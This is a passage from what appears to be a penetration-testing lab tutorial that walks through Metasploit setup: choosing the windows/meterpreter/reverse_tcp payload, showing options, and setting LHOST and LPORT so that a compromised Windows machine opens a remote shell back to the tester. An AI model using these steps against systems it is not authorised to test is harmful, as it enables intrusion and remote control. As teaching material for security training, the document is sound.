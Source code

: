        - The exploit module executes a sequence of commands to target a specific vulnerability.

   - Next, indicate that we'll be using the following Windows Meterpreter payload: 
    
     - Run `set payload windows/meterpreter/reverse_tcp` 

     - This payload will open the Meterpreter console (`/meterpreter`) and communicate with the remote machine (`/reverse_tcp`).
   
     ![MSF 2](Images/MSF_2.png)

  - Display the payload's options settings: 

      - Run `show options`

  - We need to adjust the following two options: 

     - `set LHOST 192.168.0.8` (insert our local host IP address) 

     - `set LPORT 4444`

       - We can technically use any open port, but for this example we will be using port `4444` since it was established in the payload in Step 1. 

   ![MSF 3](Images/MSF_3.png)
